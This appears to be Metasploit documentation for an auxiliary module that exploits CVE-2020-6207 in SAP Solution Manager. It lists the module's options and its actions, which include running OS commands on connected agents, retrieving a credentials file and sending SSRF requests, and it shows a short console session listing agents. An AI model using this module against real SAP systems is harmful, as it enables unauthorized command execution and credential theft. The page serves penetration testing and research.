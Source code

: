 
## Options

### TARGETURI

This is the path to the EEM admin page of the SolMan that is vulnerable to CVE-2020-6207.
By default, it is set to `/EemAdminService/EemAdmin`. However, it can be changed if SolMan
was installed at a path different from that of the web root. For example, if the SolMan
server was proxied to the `/solman/` path under the web root, then this value would be
set to `/solman/EemAdminService/EemAdmin`.

### AGENT

Connected agent sever name.
Example: `linux_agent`

### SSRF_METHOD

HTTP method for sending HTTP request from a connected agent, the server name of which is specified in the `AGENT` option.
Example: `GET`

### SSRF_URI

URI for sending HTTP requests from a connected agent, the server name of which is specified in the `AGENT` option.
Example: `http://1.1.1.1/test.html`

### COMMAND

OS command for executing in connected agent, the server name of which is specified in the `AGENT` option.
Example: `ping -c 4 1.1.1.1`

## Actions
```
   Name      Description
   ----      -----------
   EXEC      Exec OS command on connected agent
   LIST      List connected agents
   SECSTORE  Get file with SolMan credentials from connected agent
   SSRF      Send SSRF from connected agent
```

## Scenarios

### Vulnerable SolMan 7.2 running on agent: test_linux with OS: Linux and java version: 1.8

```
msf6 > workspace -a SAP_TEST
[*] Added workspace: SAP_TEST
[*] Workspace: SAP_TEST
msf6 > use auxiliary/admin/sap/cve_2020_6207_solman_rce
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set ACTION LIST
ACTION => LIST
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > set RHOST 172.16.30.46
RHOST => 172.16.30.46
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > run
[*] Running module against 172.16.30.46

[*] Getting a list of agents connected to the Solution Manager: 172.16.30.46
[+] Successfully retrieved agent list:
```

[1]: https://conference.hitb.org/hitblockdown002/materials/D2T1%20-%20SAP%20RCE%20-%20The%20Agent%20Who%20Spoke%20Too%20Much%20-%20Yvan%20Genuer.pdf
[2]: https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf
[3]: https://blogs.sap.com/2016/02/16/solution-manager-72-installation-and-configuration-i-installations/